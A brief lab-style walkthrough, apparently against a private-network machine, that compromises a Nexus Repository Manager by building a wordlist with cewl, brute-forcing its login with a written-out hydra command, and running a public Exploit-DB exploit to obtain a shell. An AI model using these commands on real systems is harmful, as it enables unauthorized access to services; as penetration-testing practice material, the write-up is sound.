 ![](../attachment/a25f64d65b7af15c1670717825a7a7cc.png)
There is nexus repository manager

Intercepting the login request
![](../attachment/399409187cd571688cbfa0d87a483bd5.png)
It is base64 encoded then url encoded.

Now we can create a custom wordlist:
```
cewl http://192.168.227.61:8081/ --lowercase | grep -v CeWL > custom-wordlist.txt
```
Now we can use hydra to bruteforce:
```
hydra -I -f -L custom-wordlist.txt -P custom-wordlist.txt 'http-post-form://192.168.227.61:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403'
```
![](../attachment/862082a30a7eb24e3ad8370783338824.png)
Got the password and username

Now using exploit for nexus:
https://www.exploit-db.com/exploits/49385
![](../attachment/085bd6d6adca04313e4dbf62b28dfdd9.png)
We can modify it and run it:
```
python3 nexus.py
```

To get a shell:
![](../attachment/7b8f393bf73661b40b0ae5ada520a005.png)
